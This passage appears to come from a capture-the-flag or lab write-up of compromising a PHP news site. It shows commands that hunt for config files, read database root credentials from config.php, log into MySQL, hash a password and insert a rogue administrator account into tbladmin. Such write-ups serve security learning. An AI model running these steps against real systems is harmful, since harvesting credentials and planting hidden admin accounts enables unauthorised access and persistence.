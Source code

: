 No write permissions, but I could **read everything**. Time to look for hidden config files:

```bash
find . -iname '*config*'
```

Gotcha

```bash
admin/includes/config.php
...
```

Inside it, I found the following credentials:

```bash
<?php
define('DB_SERVER','localhost');
define('DB_USER','root');
define('DB_PASS' ,'');
define('DB_NAME','news');
...
```

I connected to the database using these credentials:

```bash
mysql -u root news
```

Now I wanted to create an admin user. Since passwords were hashed with `bcrypt`, I used PHP to generate one:

```bash
<?php
$password = '123';
$hashedPassword = password_hash($password, PASSWORD_BCRYPT);
echo $hashedPassword;
```

Then, I created the user:

```bash
INSERT INTO tbladmin VALUES(0, 
	"lj0s", 
	"$2y$10$Y1Nauw9yNdSfdcCSIYsLq.YlAkqug4M8iVcl241n76gsxN1qujHq2", 
	"lj0s@lj0s.com", 
	1, 
	"2018-05-27 17:51:00", 
	"2018-05-27 17:51:00"
	);
```

Logged into the panel… and it worked!
